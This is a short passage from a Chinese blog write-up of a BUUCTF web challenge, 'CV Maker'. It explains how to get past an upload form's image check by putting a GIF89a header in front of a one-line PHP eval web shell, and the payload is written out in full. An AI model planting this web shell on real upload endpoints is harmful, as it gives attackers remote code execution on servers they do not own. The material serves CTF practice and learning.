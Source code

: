 ```yaml
---
title: buuctf_web部分刷题记录_PART3
abbrlink: 383bfb1c
date: 2022-10-27 09:20:56
description: 我是菜鸡
cover: false
tags:
  - CTF-Web
categories:
  - CTF
  - Web安全
  - 刷题
---
```




# [文件上传]CV Maker

注册信息进来之后有一个上传图片的界面

![image-20221027094905559](../images/buuctf-web3/image-20221027094905559.png)

这里会对上传的文件进行`exif`的检测, 所以这里在一句话木马签名加上:`GIF89a`绕过检测

```
GIF89a
<?php eval(@$_POST['a']); ?>
```

在上传后的网页源码中的本应加载图片的位置,能够找到上传的路径:

![image-20221027095054440](../images/buuctf-web3/image-20221027095054440.png)
